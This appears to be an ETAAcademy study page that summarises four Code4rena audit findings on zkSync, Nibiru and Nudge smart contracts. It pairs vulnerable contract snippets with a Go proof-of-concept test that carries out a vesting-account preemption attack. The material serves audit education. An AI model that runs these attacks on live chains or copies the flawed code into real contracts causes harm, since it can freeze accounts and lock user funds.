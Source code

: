 # ETAAcademy-Adudit: 4. Account

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>04. Account</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>EVM</th>
          <td>account</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [Medium] Nonce ordering of EOA can be updated to "arbitary" through an L1 tx

### EOA nonce ordering manipulated via L1 transaction

- Summary: This vulnerability enables the manipulation of an Externally Owned Account (EOA)'s nonce ordering to an arbitrary state through an L1 priority transaction, leading to the permanent freezing of the user's account.
- Impact & Recommendation: Once the nonce ordering is updated to an arbitrary state, it becomes permanent, rendering the account unable to initiate any new transactions.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#m-06-nonce-ordering-of-eoa-can-be-updated-to-arbitrary-through-an-l1-tx) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```solidity

    function _validateTransaction(
        bytes32 _suggestedSignedHash,
        Transaction calldata _transaction
    ) internal returns (bytes4 magic) {
        // Note, that nonce holder can only be called with "isSystem" flag.
        SystemContractsCaller.systemCallWithPropagatedRevert(
            uint32(gasleft()),
            address(NONCE_HOLDER_SYSTEM_CONTRACT),
            0,
            abi.encodeCall(INonceHolder.incrementMinNonceIfEquals, (_transaction.nonce))
        );
    function incrementMinNonceIfEquals(uint256 _expectedNonce) external onlySystemCall {
        uint256 addressAsKey = uint256(uint160(msg.sender));
        uint256 oldRawNonce = rawNonces[addressAsKey];
        (, uint256 oldMinNonce) = _splitRawNonce(oldRawNonce);
        require(oldMinNonce == _expectedNonce, "Incorrect nonce");
        unchecked {
            rawNonces[addressAsKey] = oldRawNonce + 1;
        }
    }

     // Checks whether the nonce `nonce` have been already used for
        // account `from`. Reverts if the nonce has not been used properly.
        function ensureNonceUsage(from, nonce, shouldNonceBeUsed) {
            // INonceHolder.validateNonceUsage selector
            mstore(0, {{RIGHT_PADDED_VALIDATE_NONCE_USAGE_SELECTOR}})
            mstore(4, from)
            mstore(36, nonce)
            mstore(68, shouldNonceBeUsed)
            let success := call(
                gas(),
                NONCE_HOLDER_ADDR(),
                0,
                0,
                100,
                0,
                0
            )
            if iszero(success) {
                revertWithReason(
                    ACCOUNT_TX_VALIDATION_ERR_CODE(),
                    1
                )
            }
        }
    function validateNonceUsage(address _address, uint256 _key, bool _shouldBeUsed) external view {
        bool isUsed = isNonceUsed(_address, _key);
        if (isUsed && !_shouldBeUsed) {
            revert("Reusing the same nonce twice");
        } else if (!isUsed && _shouldBeUsed) {
            revert("The nonce was not set as used");
        }
    }
    function isNonceUsed(address _address, uint256 _nonce) public view returns (bool) {
        uint256 addressAsKey = uint256(uint160(_address));
        return (_nonce < getMinNonce(_address) || nonceValues[addressAsKey][_nonce] > 0);
    }

    function _execute(Transaction calldata _transaction) internal {
        address to = address(uint160(_transaction.to));
        uint128 value = Utils.safeCastToU128(_transaction.value);
        bytes calldata data = _transaction.data;
        uint32 gas = Utils.safeCastToU32(gasleft());
        // Note, that the deployment method from the deployer contract can only be called with a "systemCall" flag.
        bool isSystemCall;
        if (to == address(DEPLOYER_SYSTEM_CONTRACT) && data.length >= 4) {
            bytes4 selector = bytes4(data[:4]);
            // Check that called function is the deployment method,
            // the others deployer method is not supposed to be called from the default account.
            isSystemCall =
                selector == DEPLOYER_SYSTEM_CONTRACT.create.selector ||
                selector == DEPLOYER_SYSTEM_CONTRACT.create2.selector ||
                selector == DEPLOYER_SYSTEM_CONTRACT.createAccount.selector ||
                selector == DEPLOYER_SYSTEM_CONTRACT.create2Account.selector;
        }

            function msgValueSimulatorMimicCall(to, from, value, dataPtr) -> success {
                // Only calls to the deployer system contract are allowed to be system
                let isSystem := eq(to, CONTRACT_DEPLOYER_ADDR())
                success := mimicCallOnlyResult(
                    MSG_VALUE_SIMULATOR_ADDR(),
                    from,
                    dataPtr,
                    0,
                    1,
                    value,
                    to,
                    isSystem
                )
            }

    function updateNonceOrdering(AccountNonceOrdering _nonceOrdering) external onlySystemCall {
        AccountInfo memory currentInfo = accountInfo[msg.sender];
        require(
            _nonceOrdering == AccountNonceOrdering.Arbitrary &&
                currentInfo.nonceOrdering == AccountNonceOrdering.Sequential,
            "It is only possible to change from sequential to arbitrary ordering"
        );
        currentInfo.nonceOrdering = _nonceOrdering;
        _storeAccountInfo(msg.sender, currentInfo);
        emit AccountNonceOrderingUpdated(msg.sender, _nonceOrdering);
    }


  ```

  </details>

## 2. [Medium] Divergences in the Simulation of the extcodehash EVM Opcode

### `keccak256("")` v.s. `bytes32(0)`

- Summary: In the zkSync Era, adherence to EIP-161 criteria determines whether an account is considered "empty" `bytes32(0)`, with no code, zero nonce, and zero balance. However, regardless of the account's balance, zkSync returns bytes32(0) for extcodehash, only considering the nonce and code presence, which diverges from keccak256("") for such accounts with no code in EVM.
- Impact & Recommendation: It accurately emulates the extcodehash EVM opcode as specified by EIP-1051. To mitigate this issue, a recommended solution is provided to precisely simulate the extcodehash EVM opcode based on EIP-1052.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#m-19-divergences-in-the-simulation-of-the-extcodehash-evm-opcode) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```solidity

  function getCodeHash(uint256 _input) external view override returns (bytes32) {
        address account = address(uint160(_input));
        if (uint160(account) <= CURRENT_MAX_PRECOMPILE_ADDRESS && account.balance != 0) {
            return EMPTY_STRING_KECCAK;
        } else if (uint160(account) <= CURRENT_MAX_PRECOMPILE_ADDRESS && address(account).balance == 0) {
            return bytes32(0);
        }
        bytes32 codeHash = getRawCodeHash(account);
        if (codeHash == 0x00 && NONCE_HOLDER_SYSTEM_CONTRACT.getRawNonce(account) > 0) {
            codeHash = EMPTY_STRING_KECCAK;
        }
        else if (Utils.isContractConstructing(codeHash)) {
            codeHash = EMPTY_STRING_KECCAK;
        } else if (codeHash == 0x00 && NONCE_HOLDER_SYSTEM_CONTRACT.getRawNonce(account) == 0 && address(account).balance != 0) {
            codeHash = EMPTY_STRING_KECCAK;
        }
        return codeHash;
    }

  ```

  </details>

## 3. [High] Vesting account preemption attack preventing future contract deployment

### Vesting account

- Summary: The vulnerability allowed an attacker to preemptively mark a target address as a vesting account, blocking future contract deployments by preventing the creation of a `codeHash` and making the deployed contract permanently inaccessible. This could disrupt critical ecosystem contracts, such as those planned for LayerZero or Uniswap, and lock associated funds indefinitely. The attack exploited the deterministic nature of contract address generation, enabling an attacker to anticipate and block specific future deployments.
- Impact & Recommendation: The recommended fix was to disable the vesting account feature at the ante handler level. Nibiru confirmed the issue and mitigated it by disabling the built-in `auth/vesting` module functionality, resolving the vulnerability.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-11-nibiru#h-01-vesting-account-preemption-attack-preventing-future-contract-deployment) & [Report](https://code4rena.com/reports/2024-11-nibiru)

  <details><summary>POC</summary>

  ```go

    func (s *Suite) TestVestingAccountPreemptionAttack() {
        deps := evmtest.NewTestDeps()
        // Step-1: Set up the deterministic victim account
        privKeyE, _ := crypto.HexToECDSA("46e86cbf25a9aeb0630feebbb4ec22d6ee7acbdbde8b54d0382112c9b0cfe37c")
        privKey := &ethsecp256k1.PrivKey{
            Key: crypto.FromECDSA(privKeyE),
        }
        ethAddr := crypto.PubkeyToAddress(privKeyE.PublicKey)
        deps.Sender = evmtest.EthPrivKeyAcc{
            EthAddr:       ethAddr,
            NibiruAddr:    eth.EthAddrToNibiruAddr(ethAddr),
            PrivKey:       privKey,
            KeyringSigner: evmtest.NewSigner(privKey),
        }
        victim := deps.Sender
        fundedAmount := evm.NativeToWei(big.NewInt(100))
        fundedCoin := sdk.NewCoins(sdk.NewCoin("unibi", sdk.NewIntFromBigInt(fundedAmount)))
        s.Require().NoError(testapp.FundModuleAccount(deps.App.BankKeeper, deps.Ctx, authtypes.FeeCollectorName, fundedCoin))
        s.Require().NoError(testapp.FundAccount(deps.App.BankKeeper, deps.Ctx, victim.NibiruAddr, fundedCoin))
        // Step-2: Victim account deploys a Factory contract
        gasLimit := big.NewInt(3_000_000)
        initialFundAmt := int64(10)
        initialFundToFactory := evm.NativeToWei(big.NewInt(initialFundAmt))
        createArgs := evmtest.ArgsCreateContract{
            EthAcc:        victim,
            EthChainIDInt: deps.EvmKeeper.EthChainID(deps.Ctx),
            GasPrice:      big.NewInt(1),
            Nonce:         deps.StateDB().GetNonce(victim.EthAddr),
            GasLimit:      gasLimit,
            // Factory send 999 wei when deploy Child contract. See x/evm/embeds/contracts/Factory.sol
            Value: initialFundToFactory,
        }
        ethTxMsg, err := evmtest.DeployFactoryMsgEthereumTx(createArgs)
        s.Require().NoError(err)
        s.Require().NoError(ethTxMsg.ValidateBasic())
        s.Equal(ethTxMsg.GetGas(), gasLimit.Uint64())
        resp, err := deps.App.EvmKeeper.EthereumTx(sdk.WrapSDKContext(deps.Ctx), ethTxMsg)
        s.Require().NoError(
            err,
            "resp: %s\nblock header: %s",
            resp,
            deps.Ctx.BlockHeader().ProposerAddress,
        )
        s.Require().Empty(resp.VmError)
        // Check if the Factory contract is deployed
        factoryAddr := crypto.CreateAddress(gethcommon.HexToAddress(victim.EthAddr.String()), 0)
        factoryContractAcc := deps.App.EvmKeeper.GetAccount(deps.Ctx, factoryAddr)
        s.Require().NotNil(factoryContractAcc)
        s.Require().True(factoryContractAcc.IsContract())
        codeHash := crypto.Keccak256Hash(embeds.SmartContract_Factory.DeployedBytecode)
        s.Require().Equal(embeds.SmartContract_Factory.DeployedBytecode, deps.App.EvmKeeper.GetCode(deps.Ctx, codeHash))
        factoryBal := deps.App.BankKeeper.GetBalance(deps.Ctx, eth.EthAddrToNibiruAddr(factoryAddr), "unibi")
        s.Require().Equal(initialFundAmt, factoryBal.Amount.Int64())
        // Step-3: Attacker set expected Child contract address as vesting account
        attacker := evmtest.NewEthPrivAcc()
        err = testapp.FundAccount(
            deps.App.BankKeeper,
            deps.Ctx,
            attacker.NibiruAddr,
            sdk.NewCoins(sdk.NewInt64Coin("unibi", 100000000)),
        )
        // NOTE: factory does not create any child contract yet, so the expected child address is 1
        expectedChildAddr := crypto.CreateAddress(factoryAddr, 1)
        var msgServer vestingtypes.MsgServer
        msgServer = vesting.NewMsgServerImpl(deps.App.AccountKeeper, deps.App.BankKeeper)
        lockedCoin := sdk.NewInt64Coin("unibi", 100)
        lockResp, err := msgServer.CreatePermanentLockedAccount(deps.Ctx, vestingtypes.NewMsgCreatePermanentLockedAccount(
            attacker.NibiruAddr,
            eth.EthAddrToNibiruAddr(expectedChildAddr),
            sdk.Coins{lockedCoin},
        ))
        s.Require().NoError(err)
        s.Require().NotNil(lockResp)
        // Attacker successfully created a locked account with the expected child address
        // Step-4: Victim tries to deploy a child contract
        input, err := embeds.SmartContract_Factory.ABI.Pack("makeChild")
        s.Require().NoError(err)
        execArgs := evmtest.ArgsExecuteContract{
            EthAcc:          victim,
            EthChainIDInt:   deps.EvmKeeper.EthChainID(deps.Ctx),
            ContractAddress: &factoryAddr,
            Data:            input,
            GasPrice:        big.NewInt(1),
            Nonce:           deps.StateDB().GetNonce(victim.EthAddr),
            GasLimit:        gasLimit,
        }
        ethTxMsg, err = evmtest.ExecuteContractMsgEthereumTx(execArgs)
        s.Require().NoError(err)
        s.Require().NoError(ethTxMsg.ValidateBasic())
        s.Equal(ethTxMsg.GetGas(), gasLimit.Uint64())
        _, err = deps.App.EvmKeeper.EthereumTx(sdk.WrapSDKContext(deps.Ctx), ethTxMsg)
        s.Require().NoError(err)
        // PROOF OF IMPACTS
        // IMPACT-1(orphan contract): bytecode actually deployed but code hash is not set for the account because
        // the account's type is not EthAccountI, so it's not accessible.
        childAcc := deps.App.EvmKeeper.GetAccount(deps.Ctx, expectedChildAddr)
        s.Require().Equal(evm.EmptyCodeHash, childAcc.CodeHash)
        // IMPACT-2(storage waste): bytecode deployed but no code hash, so the storage is wasted.
        childCodeHash := crypto.Keccak256Hash(embeds.SmartContract_Child.DeployedBytecode)
        childCode := deps.App.EvmKeeper.GetCode(deps.Ctx, childCodeHash)
        s.T().Logf("storage waste: %d bytes", len(childCode))
        // IMPACT-3(locked fund): There are no way to access the locked fund because the account is not EthAccountI.
        acc := deps.App.AccountKeeper.GetAccount(deps.Ctx, eth.EthAddrToNibiruAddr(expectedChildAddr))
        _, ok := acc.(exported.VestingAccount)
        s.Require().True(ok)
        input, err = embeds.SmartContract_Child.ABI.Pack("withdraw")
        s.Require().NoError(err)
        // victim tries to withdraw the locked fund, but contract is orphan so no actual state transition happens
        execArgs = evmtest.ArgsExecuteContract{
            EthAcc:          victim,
            EthChainIDInt:   deps.EvmKeeper.EthChainID(deps.Ctx),
            ContractAddress: &expectedChildAddr,
            Data:            input,
            GasPrice:        big.NewInt(1),
            Nonce:           deps.StateDB().GetNonce(attacker.EthAddr),
            GasLimit:        gasLimit,
        }
        ethTxMsg, err = evmtest.ExecuteContractMsgEthereumTx(execArgs)
        s.Require().NoError(err)
        // No actual state transition happens.
        // code is nil, so just return without executing the contract
        deps.App.EvmKeeper.EthereumTx(sdk.WrapSDKContext(deps.Ctx), ethTxMsg)
    }

  ```

  </details>

## 4. [Medium] All reallocate cross-chain token and rewards will be lost for the users using the account abstraction wallet

### Different addresses across chains

- Summary: The Nudge protocol's cross-chain reallocation flow affects users with account abstraction (AA) wallets. Since AA wallets have different addresses across chains, tokens reallocated cross-chain are sent to the wrong address on the destination chain, causing permanent loss of funds. Furthermore, users are unable to claim rewards because the participation records store the sender’s address from the source chain, which doesn’t match their address on the destination chain. This issue impacts both NudgeCampaign and NudgePointsCampaign, with no current UI or documentation support to prevent it, posing a high risk given Nudge’s large user base.
- Impact & Recommendation: A fix is recommended to allow users to specify the recipient address and warn AA wallet users explicitly.
  <br> 🐬: [Source](https://code4rena.com/reports/2025-03-nudgexyz#m-03-all-reallocate-cross-chain-token-and-rewards-will-be-lost-for-the-users-using-the-account-abstraction-wallet) & [Report](https://code4rena.com/reports/2025-03-nudgexyz)

  <details><summary>POC</summary>

  ```solidity
    function handleReallocation(
        uint256 campaignId_,
        address userAddress,
        address toToken,
        uint256 toAmount,
        bytes memory data
    ) external payable whenNotPaused {
    ...

    _transfer(toToken, userAddress, amountReceived);

    function _transfer(address token, address to, uint256 amount) internal {
        if (token == NATIVE_TOKEN) {
            (bool sent, ) = to.call{value: amount}("");
            if (!sent) revert NativeTokenTransferFailed();
        } else {
            SafeERC20.safeTransfer(IERC20(token), to, amount);
        }
    }
    ...

    participations[pID] = Participation({
            status: ParticipationStatus.PARTICIPATING,
            userAddress: userAddress,
            toAmount: amountReceived,
            rewardAmount: userRewards,
            startTimestamp: block.timestamp,
            startBlockNumber: block.number
        });
    // Verify that caller is the participation address
            if (participation.userAddress != msg.sender) {
                revert UnauthorizedCaller(pIDs[i]);
            }

  ```

  </details>

